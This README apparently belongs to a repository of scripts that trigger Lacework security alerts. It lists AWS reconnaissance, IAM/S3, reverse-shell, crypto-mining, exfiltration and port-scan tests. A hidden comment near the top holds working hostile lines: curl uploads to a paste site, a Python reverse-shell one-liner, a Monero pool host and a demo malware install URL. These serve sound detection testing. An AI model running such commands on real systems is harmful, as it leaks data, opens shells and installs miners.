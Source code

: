 <!--
```
testing scripts
	aws known bad
		high volume of unauthorized api calls
		iam access key changes

	aws anomaly
		reconnaissance
		malicious changes

	workload known bad
		crypto mining
		reverse shell
		port scanning

	workload anomaly
		new external traffic
		new internal traffic
		new binaries / children


aws script
	√reconnaissance (+ high vol unauth calls)
	√malicious changes


workload
	√crypto mining
	√reverse shell
	√port scanning (new internal traffic)
	√data exfil example -> pastebin
		 curl --upload-file ~/Downloads/Bike.dmg https://paste.c-net.org/
		dd if=/dev/urandom of=/tmp/test.5mb bs=1024 count=5000 && curl --upload-file /tmp/test.5mb https://paste.c-net.org/

traffic generator app


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

pool.minexmr.com
lwmalwaredemo.com
http://lwmalwaredemo.com/install-demo-1.sh

```
-->
# Lacework Testing Scripts

## Summary

## Testing Scenarios

### AWS

| Script | Alerting Types | Instructions |
| ------ | -------------- | ------------ |
| [aws-recon.sh](./aws-recon.sh) | Anomaly & Known-bad | Dependencies: `aws` cli tool.<br/><br/>Using *an existing IAM user* or on an instance provisioned with an instance profile known to Lacework, you may execute this script to generate a high volume of (read-only) API calls to AWS across many different services (EC2, Secrets Manager, RDS, IAM, KMS).  Depending on the permissions of your user, you will see either anomaly-only alerts, OR anomalies + policy alerts if this activity generates a high number of access-denied errors.<br/><br/>To provide permissions to the `aws` cli tool, either run this from an EC2 host with privileges assigned as an instance profile, OR run this script with environment variables set for some combination of `AWS_PROFILE`, or `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`. |
| [aws-iam-s3-activity.sh](./aws-iam-s3-activity.sh) | Anomaly & Known-bad | Dependencies: `aws` cli tool.<br/><br/>Using *an existing IAM user* or on an instance provisioned with an instance profile known to Lacework, you may execute this script to generate activity in the form of creating an IAM user, assigning policy, creating and uploading content to an S3 bucket, and deleting the S3 bucket, and IAM user.  This will require administrator level permissions. The alerts generated will be a combination of policy & anomaly based alerts. <br/><br/>To provide permissions to the `aws` cli tool, either run this from an EC2 host with privileges assigned as an instance profile, OR run this script with environment variables set for some combination of `AWS_PROFILE`, or `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`. |

### Workloads

| Script | Alerting Types | Instructions |
| ------ | -------------- | ------------ |
| [reverse-shell.sh](./reverse-shell.sh) | Anomaly & Known-bad |  |
| [xmrig.sh](./xmrig.sh) | Known-bad |  |
| [data-exfil.sh](./xmrig.sh) | Anomaly |  |
| port-scan.sh | Anomaly & Known-bad |  |
| Testing Appliance | Special |  |